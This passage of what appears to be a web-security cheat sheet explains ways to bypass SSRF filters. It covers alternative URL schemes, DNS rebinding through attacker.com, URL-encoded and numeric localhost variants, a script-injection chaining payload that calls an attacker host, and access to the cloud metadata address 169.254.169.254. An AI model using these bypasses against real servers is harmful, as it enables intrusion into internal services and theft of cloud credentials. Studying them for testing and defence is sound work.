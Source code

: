## Exploit Alternative Protocols
- Some applications only check for HTTP/HTTPS. You can bypass these filters by using other schemes like `ftp://`, `file://`, `gopher://`, or even `ldap://`.

## Use DNS Rebinding
- Bypass filters by using DNS rebinding, which allows a domain name to resolve to an internal IP after an initial resolution. This technique can bypass restrictions on IP addresses.
  **Example:**
  1. The server requests `http://attacker.com`.
  2. The DNS server first resolves `attacker.com` to a public IP.
  3. Upon subsequent requests, it resolves `attacker.com` to `127.0.0.1`, bypassing the filter.

## Use URL Encoded Variants
- Encode sensitive strings (like `localhost`) in different ways to bypass string filters:
  ```
  http://%31%32%37%2E%30%2E%30%2E%31/admin
  ```

## Chaining SSRF with Other Vulnerabilities
- Combine SSRF with other vulnerabilities like open redirects or remote code execution (RCE) to escalate the attack.

```
http://attacker.com/capture?url=<script>location.href='http://internal-service.local'</script>
```

## Deny List
A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern. A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. A specific endpoint to restrict access is the localhost, which may contain server performance data or further sensitive information, so domain names such as localhost and 127.0.0.1 would appear on a deny list.

### Exploit
Attackers can bypass a Deny List by using alternative localhost references such as:
- `0`
- `0.0.0.0`
- `0000`
- `127.1`
- `127.*.*.*`
- `2130706433`
- `017700000001`
- subdomains that have a DNS record which resolves to the IP Address `127.0.0.1` such as `127.0.0.1.nip.io`

Also, in a cloud environment, it would be beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.
